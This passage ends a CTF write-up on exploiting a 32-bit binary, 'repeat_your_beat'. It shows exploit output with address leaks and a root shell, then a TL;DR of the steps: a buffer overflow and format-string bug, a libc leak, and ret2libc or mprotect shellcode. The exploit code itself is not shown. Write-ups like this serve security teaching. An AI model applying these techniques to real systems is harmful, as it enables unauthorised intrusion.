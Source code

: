 ```bash
euan@euanb26  assets  python3 exploit.py
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '[some_path]/ld-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Starting local process '[some_path]/repeat_your_beat': pid 31634
[*] '[some_path]/libc-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Libc leak = 0xf7f3f580
[+] Binary leak = 0x565dc637
[+] Stack leak = 0xff98b884
[+] Libc @ 0xf7d67000
[+] Ld @ 0xf7f49000
[+] Binary @ 0x565dc000
[*] Switching to interactive mode
$ whoami
root
$ pwd
/home/user/Desktop
$ ls
repeat_your_beat encrypted_text.txt
$ cat encrypted_text.txt
0x2d,0x10,0x39,0x1c,0x55,0x19,0x7f,0x0,0x58,0x0,0x56,0x7f,0xb,0x5d,...
```
Which if we pass into our decrypt, we get our output!

Wow, what a roller coaster of events! That was rather long, but I hope you enjoyed it :)

## TL;DR
1. Reverse apk to find binary and encrypted text
2. Make sense of decryption technique inside the binary
3. Find that binary has a buffer overflow and format string vulnerability
4. Leak libc version for remote
5. Send over exploit through either ret2libc or using `mprotect` to execute shellcode, even with NX on
6. Read answer!!!
